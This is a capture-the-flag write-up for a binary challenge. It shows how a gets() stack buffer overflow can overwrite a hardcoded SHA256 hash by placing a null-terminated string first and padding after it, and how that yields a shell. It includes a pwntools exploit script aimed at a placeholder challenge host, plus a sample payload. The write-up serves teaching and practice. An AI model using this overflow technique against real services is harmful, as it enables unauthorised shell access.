




## Solution

To analyse the binary, we use [Cutter](https://github.com/rizinorg/cutter).

This challenge is similar to "Purrmission Denied". So its good to go through the solution of "Purrmission Denied" before reading this.

## Analysis

  


By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- User input is stored in variable s
- There is a hex data stored in variable s2
- The SHA256 hash of user input is calculated and converted into base 16 format.
- This is then compared with a hardcoded hash value (in variable s2)
- If both are equal, we get the shell. Else `You are lying. No access for you.` is printed.

The hardcoded hash value is
```
78448ff2086a0d4ae279ba13b156cb8409f889288b6dfee347a0223656fc8abf
```

This is no point in bruteforcing this as it could take a long time..(maybe years :lol:)





Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x138
; var const char *s2 @ stack - 0xc8
; var int64_t var_c0h @ stack - 0xc0
; var int64_t var_b8h @ stack - 0xb8
; var int64_t var_b0h @ stack - 0xb0
; var int64_t var_a8h @ stack - 0xa8
; var int64_t var_a0h @ stack - 0xa0
; var int64_t var_98h @ stack - 0x98
; var int64_t var_90h @ stack - 0x90
; var int64_t var_88h @ stack - 0x88
; var const char *s1 @ stack - 0x78
; var int64_t var_28h @ stack - 0x28
```


This means:
- The buffer `s` starts at `rbp - 0x138`
- The hardcoded hash starts at `rbp - 0xc8`

Since we don't know the original value used to generate the hardcoded hash, we can't simply replicate it. However, due to the buffer overflow vulnerability, we can overwrite the hash used in the comparison to a hash of our own input, which we control.

Plan:
- The `SHA256()` function in C uses the length provided by `strlen()` to determine how many bytes of input to hash.
- The `strlen()` function returns the number of bytes up to the first null byte (`\x00`). It does not include the null byte itself.
- Therefore, we can provide an input like "hello" followed by a null byte (`\x00`). This ensures `strlen()` only reads "hello" for hashing. After that, we can add padding to reach the target variable `s2` buffer and finally overwrite the stored hash with the hash of "hello"

To calculate the exact padding required to overflow up to the stored hash, we can use the formula:
```c
padding = offset_of_s - offset_of_s2 - strlen("hello") - 1
```
We use -1 at the end to represent the length of null byte.


### Exploit Code

We can use Pwn Tools to write the exploit

```python
from pwn import *
from hashlib import sha256

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1338)

user_input = b"hello"
user_input_hash = sha256(user_input).hexdigest()

# padding = offset_of_s - offset_of_s2 - strlen("hello") - 1
padding = b"A" * (0x138-0xc8-len(user_input)-1)

payload = user_input + b"\x00" + padding + user_input_hash.encode()

# Send the crafted input
p.sendline(payload)
# Interact with the shell
p.interactive()
```

Example for a payload
```
hello\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
```

Running the exploit results in a shell:



You can now grab the flag or run further commands.